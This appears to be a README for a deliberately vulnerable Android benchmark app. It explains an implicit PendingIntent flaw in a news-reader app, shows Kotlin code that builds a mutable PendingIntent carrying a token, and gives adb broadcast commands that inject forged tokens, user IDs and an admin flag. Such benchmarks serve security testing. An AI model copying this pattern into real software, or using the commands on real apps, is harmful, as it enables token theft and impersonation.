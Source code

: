 # oxo-android-ben38: Implicit Pending Intent Vulnerability

## Vulnerability Overview

Implicit Pending Intent occurs when Android applications create PendingIntent objects without proper security flags (`FLAG_IMMUTABLE`), allowing malicious applications to intercept, modify, or steal the intent and its sensitive data. This vulnerability can lead to privilege escalation, data theft, and unauthorized actions through mutable PendingIntents.

## Attack Vector: Intent Hijacking with Data Replacement

**Brief Explanation**: Exploitation of mutable PendingIntents in notifications to intercept and replace sensitive data like authentication tokens and user IDs through broadcast intent manipulation.

**Key Characteristics:**
- Creates PendingIntent without `FLAG_IMMUTABLE` (Android 12+ requirement)
- Embeds sensitive data in intent extras (user tokens, credentials)
- Uses implicit intents that can be hijacked by malicious apps
- Allows intent modification by third-party applications

**Vulnerable Code Pattern:**
```kotlin
// VULNERABLE: No FLAG_IMMUTABLE, allows intent modification
val notificationIntent = Intent("com.newsreader.OPEN_ARTICLE")
notificationIntent.putExtra("user_token", "sensitive_jwt_token_12345")
notificationIntent.putExtra("user_id", "user_001")

val pendingIntent = PendingIntent.getBroadcast(
    this, 0, notificationIntent,
    PendingIntent.FLAG_UPDATE_CURRENT  // Missing FLAG_IMMUTABLE!
)
```

## Testing

```bash
# Basic intent hijacking attack
adb shell am broadcast -a com.newsreader.OPEN_ARTICLE \
  --es user_token "HIJACKED_JWT_TOKEN_ABC123" \
  --es user_id "MALICIOUS_ATTACKER_001"

# Token theft simulation  
adb shell am broadcast -a com.newsreader.OPEN_ARTICLE \
  --es user_token "STOLEN_TOKEN_XYZ789"

# User impersonation attack
adb shell am broadcast -a com.newsreader.OPEN_ARTICLE \
  --es user_id "admin_user" \
  --es user_token "elevated_privileges_token"

# Multi-parameter hijacking
adb shell am broadcast -a com.newsreader.OPEN_ARTICLE \
  --es user_token "fake_token_123" \
  --es user_id "attacker" \
  --es session_id "hijacked_session" \
  --es admin_flag "true"

# Monitor intent traffic
adb shell dumpsys activity broadcasts | grep -A 5 -B 5 "newsreader"
```

**Difficulty**: Medium

## Impact Assessment

- **Confidentiality**: High - Can extract sensitive JWT tokens and user credentials
- **Integrity**: High - Can modify intended actions and parameters
- **Availability**: Medium - Can disrupt normal app functionality
- **OWASP Mobile Top 10**: M6 - Insecure Authorization, M2 - Insecure Data Storage
- **CWE**: CWE-926 (Improper Export of Android Application Components), CWE-200 (Information Exposure)